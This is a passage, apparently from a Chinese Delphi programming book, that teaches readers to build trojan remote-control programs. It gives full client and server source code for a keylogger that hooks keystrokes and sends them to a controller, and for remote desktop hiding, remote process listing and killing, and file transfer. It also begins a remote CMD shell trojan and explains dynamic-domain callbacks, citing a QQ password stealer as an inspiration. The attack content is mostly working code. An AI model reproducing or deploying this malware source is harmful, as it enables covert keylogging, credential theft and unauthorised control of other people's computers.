  ServerSocket1.Port := StrToInt(Edit1.Text);   // 要转换为整数类型
  ServerSocket1.Active := True;
  ShowMessage('监听端口：' + Edit1.Text);
end;

procedure TForm1.ServerSocket1ClientConnect(Sender: TObject;
  Socket: TCustomWinSocket);
var
  a: TListItem;
begin
  a := ListView1.Items.Add;
  a.Caption := Socket.RemoteAddress;   // 把远程主机的 IP 地址添加到列表中
  ShowMessage('有主机上线：' + Socket.RemoteAddress);
end;

procedure TForm1.ServerSocket1ClientDisconnect(Sender: TObject;
  Socket: TCustomWinSocket);
var
  i: integer;
begin
  for i := 0 to ListView1.Items.Count - 1 do    // 遍历所有存在的主机 IP 地址
  begin
    if Socket.RemoteAddress = ListView1.Items.Item[i].Caption then    // 如果是下线主机的 IP 地址
    begin
      ShowMessage('有主机下线：' + Socket.RemoteAddress);
      ListView1.Items.Item[i].Delete;    // 删除下线主机
      Exit;
    end;
  end;
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  try    // 隐藏桌面
    ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('hide');
  except
    ShowMessage('发送指令出错！');
  end;
  // ShowWindow(FindWindow(PChar('Progman'), nil), SW_HIDE);
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  try    // 显示桌面
    ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('show');
  except
    ShowMessage('发送指令出错！');
  end;
  // ShowWindow(FindWindow(PChar('Progman'), nil), SW_SHOW);
end;

end.
```


图 6.2

### 6.1.4 程序运行

上面分别编写了被控端和控制端的程序，现在运行程序来看效果，在控制端程序中输入默认的端口“8888”，然后点击“监听”按钮，程序马上就会提示监听端口，然后等待被控端的运行，一旦被控端程序被执行了，则控制端程序马上就会提示“有主机上线”，然后就可以选中对方来进行相关的操作了。本例中提供了两种简单的对被控端的操作，一种是“隐藏桌面”，另一种是“显示桌面”，如图 6.3。

点击“隐藏桌面”按钮后，可以看到对方的桌面图标马上就全部消失掉了，如图 6.4。我们再点击“显示桌面”按钮，对方的桌面图标就又重新显示出来了，如图 6.5。如果没有选择主机 IP 地址就发送操作指令的话，则会因为不知道要操作哪台计算机而弹出一个“发送指令出错”的提示窗口，如图 6.6。


## 6.2 域名转 IP 地址

很多木马在配置服务端时使用的并非是反弹的 IP 地址，而是一个动态域名，比如 3322 的动态域名等。那么木马被控制端是如何解析出这个动态域名所对应的 IP 地址呢？本节我们就来讲解一下实现的方法。

### 6.2.1 程序编写

我们要编写的这个演示程序只使用到了两个编辑框控件和一个按钮控件，第一个编辑框控件用来输入要解析的域名，第二个编辑框控件用来得到解析成功的 IP 地址信息，如图 6.7。

事实上，程序使用到了一个解析 IP 的函数“HostToIP”，它有两个参数，第一个参数为要解析的域名，第二个参数为返回的 IP 信息。这个“HostToIP”函数有一个返回信息，如果函数执行成功则返回真，否则程序就返回假。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, WinSock;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Edit1: TEdit;
    Edit2: TEdit;
    Label1: TLabel;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

function HostToIP(Name: string; var IP: string): Boolean;  // HostToIP 函数的作用是将域名解析成 IP
var
  wsdata: TWSAData;
  hostName: array [0..255] of char;
  hostEnt: PHostEnt;
  addr: PChar;
begin
  WSAStartup($0101, wsdata);
  try
    gethostname(hostName, sizeof(hostName));
    StrPCopy(hostName, Name);
    hostEnt := gethostbyname(hostName);
    if Assigned(hostEnt) then
      if Assigned(hostEnt^.h_addr_list) then
      begin
        addr := hostEnt^.h_addr_list^;
        if Assigned(addr) then
        begin
          IP := Format('%d.%d.%d.%d', [byte(addr[0]), byte(addr[1]), byte(addr[2]), byte(addr[3])]);
          Result := True;
        end
        else
          Result := False;
      end
      else
        Result := False
    else
    begin
      Result := False;
    end;
  finally
    WSACleanup;
  end;
``````pascal
end

end;

procedure TForm1.Button1Click(Sender: TObject);
var
  name: string;
  ip: string;
begin
  name := Edit1.Text;    // 得到编辑框中的文本
  HostToIP(name, ip);    // 调用函数
  Edit2.Text := ip;      // 显示IP信息
end;

end.
```

因为这个“HostToIP”函数的调用方法在注释中已经描述得很详细了，这里就不再赘述了。

### 6.2.2 程序运行

在编写完程序代码后，就可以按 F9 运行程序了，在程序的域名输入框中输入域名，然后点击“转换”按钮，就会在 IP 输入框中显示出解析成功的 IP 地址信息，如图6.8。

这里用到的动态域名为“xiaolong1212.3322.org”，对应的 IP 地址为“58.48.208.151”，我们可以使用 CMD 下的 PING 命令来解析一下这个域名所对应的 IP 地址，结果也为“58.48.208.151”，所以说程序的解析是成功的，如图6.9。

我们再使用程序来解析 www.baidu.com 对应的 IP 地址，如图6.10，得到 www.baidu.com 所对应的 IP 地址为“220.181.37.55”，为了测试程序是否执行了解析程序，我们使用 PING 命令来发送 ICMP 包进行测试，可以看到得到的结果是一样的，也就是说我们的程序是执行成功的，如图6.11。

## 6.3 键盘记录程序

相信小菜们都对程序的键盘记录功能非常着迷吧，比如著名的阿拉 QQ 大盗就是通过键盘记录功能来实现对 QQ 密码的截取。下面就给大家介绍 C/S 模式下的键盘记录程序的编写，读者朋友们可以在此基础上进行修改和完善。

### 6.3.1 编写被控端

被控制端程序使用到了一个 MEMO 组件和两个按钮组件，一个按钮组件用来实现 HOOK 操作，另一个组件用来实现 UNHOOK 操作。这里使用按钮组件，是为了方便直观地让读者们能够看到键盘记录功能的两个互逆操作。同时程序还使用到了一个 ClientSocket 组件来实现程序的数据通信，也就是发送截取的键盘记录信息到控制端，程序界面如图6.12所示。

这里要使用到 ClientSocket 组件的“读”事件，方法为点击 ClientSocket 组件来到对象检查器中，找到 Events（事件）页面，选择“OnRead”并双击，如图6.13，就会自动在程序的代码编辑框中显示一个程序的数据读取事件，被控制端就是通过这个事件来读取控制端发送过来的控制指令，然后执行键盘记录等操作的，如图6.14。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ScktComp;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Button2: TButton;
    Memo1: TMemo;
    ClientSocket1: TClientSocket;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure FormDestroy(Sender: TObject);
    procedure FormCreate(Sender: TObject);
    procedure ClientSocket1Read(Sender: TObject; Socket: TCustomWinSocket);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

const
  KeyMask = $80000000;

var
  Form1: TForm1;
  LogHook: HHook = 0;
  LastFocusWnd: HWND = 0;
  PrvChar: Char;
  hookKey: string;

implementation

{$R *.dfm}

function LogProc(iCode: Integer; wParam, lParam: Longint): LRESULT; stdcall;
var
  ch: Char;
  vKey: Integer;
  FocusWnd: HWND;
  Title: array[0..255] of Char;
  str: array[0..12] of Char;
  TempStr, Time: string;
  LogFile: TextFile;
  pEvt: ^EVENTMSG;
  iCapital, iNumLock, iShift: Integer;
  bShift, bCapital, bNumLock: Boolean;
begin
  if iCode < 0 then
  begin
    Result := CallNextHookEx(LogHook, iCode, wParam, lParam);
    Exit;
  end;
  if (iCode = HC_ACTION) then
  begin
    pEvt := Pointer(DWORD(lParam));

    FocusWnd := GetActiveWindow;
    if LastFocusWnd <> FocusWnd then
    begin
      if hookKey <> '' then
      begin
        Form1.Memo1.Lines.Add(hookKey);
        hookKey := '';
      end;
      GetWindowText(FocusWnd, Title, 256);
      LastFocusWnd := FocusWnd;
      Time := DateTimeToStr(Now);
      Form1.Memo1.Lines.Add(Time + Format('Title:%s', [Title]));
    end;

    if pEvt.message = WM_KEYDOWN then
    begin
      vKey := LOBYTE(pEvt.paramL);
      iShift := GetKeyState($10);
      iCapital := GetKeyState($14);
      iNumLock := GetKeyState($90);
      bShift := ((iShift and KeyMask) = KeyMask);
      bCapital := ((iCapital and 1) = 1);
      bNumLock := ((iNumLock and 1) = 1);

      //HookList.Add('这是 vKey:' + IntToStr(vKey));

      if ((vKey >= 48) and (vKey <= 57)) then
      begin
        if not bShift then
        begin
          ch := Char(vKey);
        end
        else
        begin
          case vKey of
            48: ch := ')';
            49: ch := '!';
            50: ch := '@';
            51: ch := '#';
            52: ch := '$';
            53: ch := '%';
            54: ch := '^';
            55: ch := '&';
            56: ch := '*';
            57: ch := '(';
          end;
        end;
        hookKey := hookKey + ch;
      end;

      if ((vKey >= 65) and (vKey <= 90)) then    // A-Z a-z
      begin
        if not bCapital then
        begin
          if bShift then
            ch := Char(vKey)
          else
            ch := Char(vKey + 32);
        end
        else
        begin
          if bShift then
            ch := Char(vKey + 32)
          else
            ch := Char(vKey);
        end;
        hookKey := hookKey + ch;
      end;

      if ((vKey >= 96) and (vKey <= 105)) then    // 小键盘的0-9
        if bNumLock then
          hookKey := hookKey + Char(vKey - 96 + 48);
      ch := #10;

      if (vKey > 105) and (vKey <= 111) then
      begin
        case vKey of
          106: ch := '*';
          107: ch := '+';
          109: ch := '-';
          111: ch := '/';
        else
          ch := #10;
        end;
      end;
      if (vKey >= 186) and (vKey <= 222) then    // 其它按键
      begin
        case vKey of
          186: if not bShift then ch := ';' else ch := ':';
          187: if not bShift then ch := '=' else ch := '+';
          188: if not bShift then ch := ',' else ch := '<';
          189: if not bShift then ch := '-' else ch := '_';
          190: if not bShift then ch := '.' else ch := '>';
          191: if not bShift then ch := '/' else ch := '?';
          192: if not bShift then ch := '''' else ch := '~';
          219: if not bShift then ch := '[' else ch := '{';
          220: if not bShift then ch := '\' else ch := '|';
          221: if not bShift then ch := ']' else ch := '}';
          222: if not bShift then ch := Char(27) else ch := '"';
        else
          ch := #10;
        end;
      end;
      if ch <> #10 then
        hookKey := hookKey + ch;
      // if (wParam >= 112) and (wParam <= 123) then   // 功能键[F1]-[F12]
      if (vKey >= 8) and (vKey <= 46) then   // 方向键
      begin
        ch := ' ';
        case vKey of
          8: str := '[退格]';
          9: str := '[TAB]';
          13: str := '[Enter]';
          32: str := '[空格]';
          33: str := '[PageUp]';
          34: str := '[PageDown]';
          35: str := '[End]';
          36: str := '[Home]';
          37: str := '[LF]';
          38: str := '[UF]';
          39: str := '[RF]';
          40: str := '[DF]';
          45: str := '[Insert]';
          46: str := '[Delete]';
        else
          ch := #10;
        end;
        if ch <> #10 then
        begin
          //if PrvChar <> Char(vKey) then
          //begin
          hookKey := hookKey + str;
          //  PrvChar := Char(vKey)
          //end;
        end;
      end;
    end;
  end;
  Result := CallNextHookEx(LogHook, iCode, wParam, lParam);
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  if LogHook = 0 then
  begin
    LogHook := SetWindowsHookEx(WH_JOURNALRECORD, LogProc, HInstance, 0);
  end;
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  UnhookWindowsHookEx(LogHook);
  LogHook := 0;
end;

procedure TForm1.FormDestroy(Sender: TObject);
begin
  UnhookWindowsHookEx(LogHook);
  LogHook := 0;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  ClientSocket1.Host := '127.0.0.1';  // 为了演示方便，这里使用了保留地址
  ClientSocket1.Port := 8888;
  ClientSocket1.Active := True;
end;

procedure TForm1.ClientSocket1Read(Sender: TObject;
  Socket: TCustomWinSocket);
var
  s: string;    // 接受指令的变量
begin
  s := Socket.ReceiveText;
  if s = 'hook' then    // 开始
    Button1.Click;

  if s = 'unhook' then    // 停止键盘记录
    Button2.Click;

  if s = 'get' then
    Socket.SendText(Memo1.Text);    // 发送键盘记录信息
end;

end.
```

程序代码有点多，其实程序只是使用了 **SetWindowsHookEx(WH_JOURNALRECORD, LogProc, HInstance, 0)** 来设置 HOOK，在 HOOK 成功后，就会在 MEMO1 中显示键盘记录的字符串，如果要取消 HOOK 的话，可以使用 **UnhookWindowsHookEx(LogHook)**。

### 6.3.2 编写控制端

控制端程序使用到了一个 ListView 组件，用来显示连接成功的被控端主机 IP 地址，还用到了四个按钮组件和一个 MEMO 组件，用来显示捕获的键盘记录信息，程序界面如图6.15所示。

要捕获被控端程序所截取的键盘记录信息是在 ClientRead 事件中，要得到这个事件代码，可以先选中 ServerSocket 组件，然后来到代码监视器窗口，找到 Events 页项，双击“OnClientRead”事件右侧，就会自动出现事件的代码了，如图6.16。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ScktComp, ComCtrls;

type
  TForm1 = class(TForm)
```

```pascal
ListView1: TListView;
Button1: TButton;
Button2: TButton;
Button3: TButton;
ServerSocket1: TServerSocket;
Memo1: TMemo;
Button4: TButton;
procedure Button1Click(Sender: TObject);
procedure Button2Click(Sender: TObject);
procedure Button3Click(Sender: TObject);
procedure ServerSocket1ClientConnect(Sender: TObject;
  Socket: TCustomWinSocket);
procedure ServerSocket1ClientRead(Sender: TObject;
  Socket: TCustomWinSocket);
procedure Button4Click(Sender: TObject);
private
  { Private declarations }
public
  { Public declarations }
end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  ServerSocket1.Active := False;   // 首先停止监听
  ServerSocket1.Port := 8888;      // 设置本地监听端口
  ServerSocket1.Active := True;    // 开始监听
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  try
    ServerSocket1.Socket.Connections[ListView1.ItemIndex].SendText('hook');  // 发送键盘记录的指令
  except
    ShowMessage('可能你没有选择对方主机，或者网络连接错误！');
  end;
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  try
    ServerSocket1.Socket.Connections[ListView1.ItemIndex].SendText('unhook');  // 发送停止键盘记录的指令
  except
    ShowMessage('可能你没有选择对方主机，或者网络连接错误！');
  end;
end;

procedure TForm1.ServerSocket1ClientConnect(Sender: TObject;
  Socket: TCustomWinSocket);
var
  a: TListItem;    // 声明对象
begin
  a := ListView1.Items.Add;
  a.Caption := Socket.RemoteAddress;    // 添加远程主机的IP地址到列表中
end;

procedure TForm1.ServerSocket1ClientRead(Sender: TObject;
  Socket: TCustomWinSocket);
var
  s: string;    // 声明字符串变量用来保存获得的键盘记录信息
begin
  Memo1.Clear;    // 首先清空文本框的内容
  s := Socket.ReceiveText;
  Memo1.Text := s;    // 显示键盘记录信息
end;

procedure TForm1.Button4Click(Sender: TObject);
begin
  try
    ServerSocket1.Socket.Connections[ListView1.ItemIndex].SendText('get'); // 获取键盘记录的指令
  except
    ShowMessage('可能你没有选择对方主机，或者网络连接错误！');
  end;
end;

end.


```

### 6.3.3 程序运行

分别运行控制端和被控制端程序，然后点击控制端程序中的“监听”按钮，然后等待被控端程序上线，在被控端程序上线成功后，就可以选择被控端程序的IP地址，点击“记录”按钮，被控端就会开始 HOOK 键盘记录信息了，如图6.17。

当被控端的主机用户输入了一些字符串信息之后，就可以点击“获取信息”按钮，我们就会看到在控制端显示出了被控制端主机用户输入的字符串信息了，如图6.18。
图6.18

## 6.4 进程管理工具

一款远程控制软件，其合理的进程管理功能是很有必要的，本节就介绍如何实现 C/S 模式下的进程管理操作。

### 6.4.1 编写被控端

我们使用 UDP 协议来编写该程序，这样读者朋友们就可以逐步理解之前所介绍的 TCP 协议编写木马和 UDP 协议编写木马的不同了。

被控端程序只使用到了一个 NMUDP 组件，这个组件在 FASTNET 页面下面，如图6.19。UDP 协议和 TCP 协议最大的不同在于，UDP 协议不需连接远程主机就直接发送数据，这样就会出现两种结果，一种是程序因为不进行连接所以会造成数据丢失，另一种就是因为不通过 TCP 的三次握手，所以数据的发送速度有明显的提高。另外，程序还自定义了两个函数，EnumerateProcess 用来得到系统的所有进程信息，KillProcess 函数用来关闭指定的进程。

程序的全部代码如下：
图6.19

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants,
  Classes, Graphics, Controls, Forms,
  Dialogs, TLHelp32, NMUDP, StdCtrls;

type
  TForm1 = class(TForm)
    NMUDP1: TNMUDP;
    procedure NMUDP1DataReceived(Sender: TComponent; NumberBytes: Integer;
      FromIP: String; Port: Integer);
  private
  public
    { Public declarations }
  end;

var
  Form1: TForm1;
  List: TStringList;  // 把List声明成全局变量

implementation

{$R *.dfm}

function EnumerateProcess: string;  // 列举进程过程
var
  lppe: TProcessEntry32;
  found: Boolean;
  Hand: THandle;
begin
  List := TStringList.Create;
  try
    Hand := CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);
    lppe.dwSize := SizeOf(lppe);
    try
      found := Process32First(Hand, lppe);
      while found do
      begin
        List.Add(ExtractFileName(lppe.szExeFile) + '  ID: ' + IntToHex(lppe.th32ProcessID, 10));
        found := Process32Next(Hand, lppe);
      end;
    finally
      CloseHandle(Hand);
    end;
  finally
    DeleteFile('c:\result.txt');
    List.SaveToFile('C:\result.txt');    // 把进程信息保存到 C 盘
    Result := List.Text;
    // List.Free;    // 放到 Click 事件中释放 List 对象。
  end;
end;

function KillProcess(ExeName: string): Boolean;  // 关闭程序进程
var
  lppe: TProcessEntry32;
  found: Boolean;
  Hand: THandle;
  idname: string;
begin
  ExeName := UpperCase(ExeName);
  Hand := CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);
  try
    lppe.dwSize := SizeOf(lppe);
    found := Process32First(Hand, lppe);
    while found do
    begin
      idname := UpperCase(ExtractFileName(lppe.szExeFile));
      if (Pos(ExeName, idname) > 0) then
      begin
        if TerminateProcess(OpenProcess(PROCESS_ALL_ACCESS or PROCESS_TERMINATE, False, DWORD(lppe.th32ProcessID)), 0) then
          Result := True;
        Break;
      end;
      found := Process32Next(Hand, lppe);
    end;
  finally
    CloseHandle(Hand);
  end;
end;

procedure TForm1.NMUDP1DataReceived(Sender: TComponent;
  NumberBytes: Integer; FromIP: String; Port: Integer);
var
  a: array[0..99] of Char;
  b: string;
  stream1: TMemoryStream;
begin
  NMUDP1.ReadBuffer(a, NumberBytes);  // 获取控制端发送过来的控制指令

  if a = 'refresh' then            // 如果得到刷新进程信息指令
  begin
    EnumerateProcess;
    try
      stream1 := TMemoryStream.Create;
      stream1.LoadFromFile('c:\result.txt');    // 读取C盘下的进程信息
      NMUDP1.RemoteHost := '127.0.0.1';
      NMUDP1.RemotePort := 4444;
      NMUDP1.SendStream(stream1);    // 发送进程信息给控制端
    finally
      stream1.Free;
      DeleteFile('c:\result.txt');
    end;
  end;

  if Pos('killprocess', StrPas(a)) > 0 then   // 如果得到关闭进程控制指令
  begin
    b := Copy(StrPas(a), 12, Length(StrPas(a))); // 得到要删除的进程名称
    ShowMessage('删除进程：' + b + '，点确定后删除！');
    KillProcess(b);
  end;
end;


```

程序使用 RemoteHost 的属性来设置远程主机的 IP 地址，使用 RemotePort 属性（这里被控端程序开放本机的 8888 端口，而控制端开放本机的 4444 端口）来连接远程主机开放的端口，最后使用 SendStream() 方法就可以发送一个数据流对象到对方主机了。
### 6.4.2 编写控制端

控制端程序使用到了两个编辑框组件，一个是主机地址输入框，一个是端口输入框，还使用到了两个按钮。组件，一个用来获取进程信息，一个用来结束指定的进程。控制端程序使用 NMUDP 连接远程主机的 8888 端口，连接成功后，就使用 SendBuffer 方法发送控制指令，如图6.20。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ComCtrls, NMUDP;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Edit1: TEdit;
    Edit2: TEdit;
    Label1: TLabel;
    Button2: TButton;
    NMUDP1: TNMUDP;
    ListBox1: TListBox;
    ListView1: TListView;
    Label2: TLabel;
    Label3: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure NMUDP1DataReceived(Sender: TComponent; NumberBytes: Integer;
      FromIP: String; Port: Integer);
    procedure Button2Click(Sender: TObject);
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  a: array[0..99] of Char;
begin
  ListBox1.Clear;
  ListView1.Clear;
  a := 'refresh';
  try
    NMUDP1.RemoteHost := Edit1.Text;
    NMUDP1.RemotePort := StrToInt(Edit2.Text);
    NMUDP1.SendBuffer(a, 100);
  except
    ShowMessage('发送指令失败!');
  end;
end;
```

```pascal
procedure TForm1.NMUDP1DataReceived(Sender: TComponent;
  NumberBytes: Integer; FromIP: String; Port: Integer);
var
  a: TMemoryStream;
  b: TStringList;
  i: Integer;
  t: TListItem;
  s, s2, s3: string;
begin
  a := TMemoryStream.Create;
  b := TStringList.Create;

  NMUDP1.ReadStream(a);           // 得到被控端发送过来的进程信息
  b.LoadFromStream(a);
  ListBox1.Items.Assign(b);       // 保存进程信息到 LISTBOX 中
  for i := 0 to ListBox1.Items.Count - 1 do   // 从 LISTBOX 组件中把信息分离出来
  begin
    s := ListBox1.Items.Strings[i];
    s2 := Trim(Copy(s, 1, Pos('ID', s) - 1));
    s3 := Trim(Copy(s, Pos('ID', s) + 3, Length(s)));
    t := ListView1.Items.Add;
    t.Caption := s2;                // 显示进程信息到列表控件中
    t.SubItems.Add(s3);
  end;

  a.Free;
  b.Free;
end;
```

```pascal
procedure TForm1.Button2Click(Sender: TObject);
var
  a: array[0..99] of Char;
begin
  try
    StrCopy(a, 'killprocess ' + ListView1.Selected.Caption);   // 组合命令
    Form1.Caption := '删除进程:' + ListView1.Selected.Caption;  // 提示
    NMUDP1.RemoteHost := Edit1.Text;
    NMUDP1.RemotePort := StrToInt(Edit2.Text);


用 POSTIT 方法发送这个文件流，最后释放这个文件流对象，程序的代码如下：

```

### 6.4.3 程序运行

按 F9 分别运行程序，或者分别生成 EXE 文件后再运行程序，点击“刷新进程”按钮就会在程序的 LISTVIEW 中显示被控制的程序进程，选择列表中的一个进程名称，然后点击“结束进程”，就可以关闭指定的进程了（程序在结束指定进程之后，会自动点击第一个按钮，也就是“刷新进程”信息的按钮来刷新进程信息），如图6.21。
## 6.5 文件传输功能

文件传输是木马编写中的一个重点，比如著名的网络神偷，就是一款远程 C/S 型文件传输软件，本节我们就重点来介绍网络文件的传输操作。

### 6.5.1 原理分析

网络文件的传输是一件非常复杂的事情，但是在 DELPHI 中这一切却会变得非常容易，使用 DELPHI 中的 NMSTRM 和 NMSTRMSERV 组件，就可以实现文件的传输操作。从组件的名字就可以看出，这是两个专门用于传输网络文件的 VCL 组件。如果要使用 NMSTRM 和 NMSTRMSERV 组件，只有在 DELPHI 6 中才行，而在 DELPHI 7 中则需要手工安装 FASTNET 组件包。
### 6.5.2 编写被控端

首先在 FASTNET 页面中找到 NMSTRM 组件添加到程序的窗体界面上，NMSTRM 组件默认是自动连接远程的 6711 端口，如图6.22，然后再添加一个 OpenDialog 组件，用来选择打开要发送传输的文件路径信息，最后摆放好各个组件的位置，程序的界面如图6.23 所示。
```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  MyFStream: TFileStream;
begin
  if OpenDialog1.Execute then    // 打开文件
  begin
    NMStrm1.Host := Edit1.Text;   // 得到主机 IP 地址
    MyFStream := TFileStream.Create(OpenDialog1.FileName, fmOpenRead);   // 打开文件
    try
      NMStrm1.PostIt(MyFStream);  // 发送文件
    finally
      MyFStream.Free;
    end;
  end;
end;
```

同时，为了显示数据的发送状态，还要使用一个 PACKETSENT 事件，可以在这个事件中添加代码，显示当前发送的数据总量：

```pascal
procedure TForm1.NMStrm1PacketSent(Sender: TObject);
begin
  Form1.Caption := IntToStr(NMStrm1.BytesSent) + '/' + IntToStr(NMStrm1.BytesTotal);
end;
```

把上面这一小段代码再添加进去，得到程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, Psock, NMStrm, StdCtrls;

type
  TForm1 = class(TForm)
    NMStrm1: TNMStrm;
    Button1: TButton;
    OpenDialog1: TOpenDialog;
    Edit1: TEdit;
    procedure Button1Click(Sender: TObject);
    procedure NMStrm1PacketSent(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  MyFStream: TFileStream;
begin
  if OpenDialog1.Execute then   // 打开文件
  begin
    NMStrm1.Host := Edit1.Text;   // 得到主机IP地址
    MyFStream := TFileStream.Create(OpenDialog1.FileName, fmOpenRead);   // 打开文件
    try
      NMStrm1.PostIt(MyFStream);   // 发送文件
    finally
      MyFStream.Free;
    end;
  end;
end;

procedure TForm1.NMStrm1PacketSent(Sender: TObject);
begin
  Form1.Caption := IntToStr(NMStrm1.BytesSent) + '/' + IntToStr(NMStrm1.BytesTotal);
end;

end.


```
图 6.24
图 6.25

### 6.5.3 编写控制端

现在来编写文件传输的接收端，接收端的程序使用到了一个保存对话框组件和一个 NMSTRMSERV 组件，摆放好各个组件的位置后就可以编写代码了，程序界面如图 6.24 所示。NMSTRMSERV 组件默认会自动监听本地的 6711 端口，然后等待 NMSTRM 组件的连接，如图 6.25。

NMSTRM 组件使用 POSTIT 方法发送文件流到 NMSTRMSERV 组件中，接收数据的事件为 MSG，这里可以添加接收数据的代码，其中使用到了 NMSTRMSERV 组件的 COPYFROM 方法来接收数据，代码如下：

```pascal
procedure TForm1.NMStmServ1MSG(Sender: TComponent; const sFrom: String;
  stm: TStream);   // 数据到达
var
  MyFStream: TFileStream;
begin
  ListBox1.Items.Add('数据到达');

  if SaveDialog1.Execute then // 打开保存对话框
  begin
    MyFStream := TFileStream.Create(SaveDialog1.FileName, fmCreate); // 创建文件
    try
      MyFStream.CopyFrom(stm, stm.Size); // 获取全部数据
    finally
      MyFStream.Free;
    end;
  end;
end;
```

同时，可以在连接事件和断开连接事件中显示数据的通信状态，代码如下：

```pascal
procedure TForm1.NMStmServ1Connect(Sender: TObject);
begin
  ListBox1.Items.Add('有主机连接！');
end;

procedure TForm1.NMStmServ1Disconnect(Sender: TObject);
begin
  ListBox1.Items.Add('失去连接！');
end;
```

综合上面的代码，最终程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, Psock, NMSTRM, StdCtrls;

type
  TForm1 = class(TForm)
    NMStmServ1: TNMStmServ;
    SaveDialog1: TSaveDialog;
    ListBox1: TListBox;
    procedure NMStmServ1MSG(Sender: TComponent; const sFrom: String;
      stm: TStream);
    procedure NMStmServ1Connect(Sender: TObject);
    procedure NMStmServ1Disconnect(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.NMStmServ1MSG(Sender: TComponent; const sFrom: String;
  stm: TStream);            // 数据到达
var
  MyFStream: TFileStream;
begin
  ListBox1.Items.Add('数据到达');

  if SaveDialog1.Execute then    // 打开保存对话框
  begin
    MyFStream := TFileStream.Create(SaveDialog1.FileName, fmCreate);   // 创建文件
    try
      MyFStream.CopyFrom(stm, stm.Size);    // 读取全部数据
    finally
      MyFStream.Free;
    end;
  end;
end;

procedure TForm1.NMStmServ1Connect(Sender: TObject);
begin
  ListBox1.Items.Add('有主机连接！');
end;

procedure TForm1.NMStmServ1Disconnect(Sender: TObject);
begin
  ListBox1.Items.Add('失去连接！');
end;

end.


```
### 6.5.4 程序运行

按 F9 键分别运行两个程序，传输文件端口只有一个按钮，如图 6.26，点击“发送”按钮后，就会自动打开一个对话框要求用户选择文件进行发送，比如我们选择一个文件来模拟发送，如图 6.27。在发送数据过程中，可以在程序的标题栏看到数据的发送状态，如图 6.28。
来到文件的接收端，可以看到数据到达和失去连接等状态信息，如图 6.29。同时，在数据的到达事件中还会自动地弹出一个对话框，要求输入一个文件保存的名称，如图 6.30，比如我们输入一个 SAVE.RAR 文件名称，并且保存在 C 盘，最后文件的保存情况如图 6.31 所示。
## 6.6 模拟 CMD

作为一款远程控制软件，往往都带有 CMD 远程终端功能，毕竟有些功能在 CMD 下实现起来比较方便，本节来给大家介绍如何使用 DELPHI 编写一个 C/S 型的 CMD 模拟控制木马程序。
### 6.6.1 编写被控端

我们还是使用传统的 C/S 模式来实现 CMD 远程控制软件的编写，首先编写被控端，被控端程序使用到了一个 TIMER 组件，用于不断尝试连接控制端，还用到了一个 CLIENTSOCKET 组件来实现 C/S 直接的数据通信，还使用到了一个 MEMO1 组件，用来把 CMD 管道中执行的数据结果显示出来，程序的界面如图 6.32 所示。别忘记了设置 MEMO1 组件的 SCROLLBARS 属性为 SSBOTH，如图 6.33。

程序全部的代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, ExtCtrls, ScktComp, ShellAPI, URLMon, StdCtrls;

type
  TForm1 = class(TForm)
    ClientSocket1: TClientSocket;
    Timer1: TTimer;
    Memo1: TMemo;
    procedure ClientSocket1Error(Sender: TObject; Socket: TCustomWinSocket;
      ErrorEvent: TErrorEvent; var ErrorCode: Integer);
    procedure Timer1Timer(Sender: TObject);
    procedure ClientSocket1Connect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ClientSocket1Disconnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ClientSocket1Read(Sender: TObject; Socket: TCustomWinSocket);
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.ClientSocket1Error(Sender: TObject;
  Socket: TCustomWinSocket; ErrorEvent: TErrorEvent;
  var ErrorCode: Integer);
begin
  ErrorCode := 0;   // 让 ClientSocket 不至于报错
end;

